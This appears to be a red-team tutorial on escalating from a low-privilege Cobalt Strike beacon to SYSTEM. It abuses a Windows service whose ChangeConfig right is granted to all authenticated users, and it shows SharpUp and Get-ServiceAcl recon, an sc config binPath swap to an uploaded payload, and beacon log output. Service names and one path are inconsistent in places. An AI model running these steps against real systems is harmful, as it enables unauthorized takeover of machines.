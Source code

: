 This scenario is based upon an assumed compromise with lower privileges and after doing some endpoint recon we find a service that allows us to configure an exe of our choosing.  It's a common technique to look for vulnerable or misconfigured services as they tend to run with higher privileges.  Assuming you get passed EDR with the assumed compromised some of these techniques can be noisy but are TTPs threat actors employ. I'm using Cobalt as my C2 of choice but these techniques can be leveraged with plent of other popular C2 frameworks.


We'll need two listeners for this scenario (http & tcp).  The http listener is tied to the initial compromise and we'll use the beacon_bind_tcp as the second listener which will aid in elevating our privileges.  Below are my settings for both http and tcp listeners with cobalt.

![](/assets/http.png "http")

![](/assets/tcp-local.png "tcp-local")

Once on the compromised endpoint we can run a tool such as SharpUp to determine any priv esc opportunities.

```bash
[03/02 00:47:24] beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit
[03/02 00:47:25] [*] Tasked beacon to run .NET program: SharpUp.exe audit
[03/02 00:47:25] [+] host called home, sent: 149254 bytes
[03/02 00:47:26] [+] received output:

=== Modifiable Service Binaries ===
	Service 'VulnService1' (State: Running, StartMode: Auto) : C:\Program Files\Vulnerable Services\Service.exe
```

So SharpUp identifed a service where we can modify the service binary but doesn't show exactly what the permissions are so we need to dig a little deeper.  We can leverage a powershell script to see what service rights we have.

```bash
[03/02 01:21:24] beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [*] Tasked beacon to import: C:\Tools\Get-ServiceAcl.ps1
[03/02 01:21:24] [+] host called home, sent: 2156 bytes
[03/02 01:21:46] beacon> powershell Get-ServiceAcl -Name VulnService | select -expand Access
[03/02 01:21:46] [*] Tasked beacon to run: Get-ServiceAcl -Name VulnService2 | select -expand Access
[03/02 01:21:46] [+] host called home, sent: 425 bytes
[03/02 01:21:50] [+] received output:

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
```

We can see that all Authenticated Users have ChangeConfig, Start and Stop privileges over this service. We can abuse these weak permissions by changing the binary path of the service.  So instead of it running C:\Program Files\Vulnerable Services\Service.exe we can have it run something like C:\Temp\payload.exe.  If you haven't already go into Cobalt and create the tcp payload that leverages the tcp listener.  Next we'll configure the service to use our payload versus the service executable of the original service.

```bash
beacon> upload C:\Payloads\tcp-local.exe
beacon> run sc config VulnService binPath= C:\Temp\tcp-localexe
beacon> run sc qc VulnService
```

You may need to stop and start the service so keep that in mind.  Once the service is up and running with payload we pointed it too we can then connect to our localhost to hopefully have a beacon with elevated prvileges.

```bash
[03/02 01:36:36] beacon> connect localhost 4444
[03/02 01:36:36] [*] Tasked to connect to localhost:4444
[03/02 01:36:36] [+] host called home, sent: 20 bytes
[03/02 01:36:36] [+] established link to child beacon: 10.10.123.102
```

![](/assets/system-privs.png "system-privs")

We can see from the screenshot that we were succesful in obtaing a call back with system privileges.
